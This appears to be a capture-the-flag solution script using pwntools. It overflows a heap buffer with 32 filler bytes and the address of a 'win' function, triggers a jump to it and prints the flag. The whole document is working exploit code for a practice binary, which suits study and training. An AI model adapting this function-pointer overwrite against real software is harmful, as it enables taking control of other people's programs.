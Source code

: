 ```

def tojump(numb):
   p.recvuntil(b'[1-5] :')
   p.sendline(b'5')
   p.recvuntil(b'(1, 2, or 3)')
   p.sendline(numb)
   flag = p.recvuntil(b'}\n').decode().strip()
   log.info(flag)

p = start() 

win_function = elf.sym['win']   # 0x004009ae

log.info("Overwriting the top chunk.",)

#aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll
#aaaabbbbccccddddeeeeffffgggghhhh + win()
# a*32 + win_function

payload = b'a'*32 + p64(win_function)

allocate(b'20' , payload)

log.info("Set the jump!")
setjump()

log.info("Jump to win()")
tojump(b'1')

#p.interactive()

```


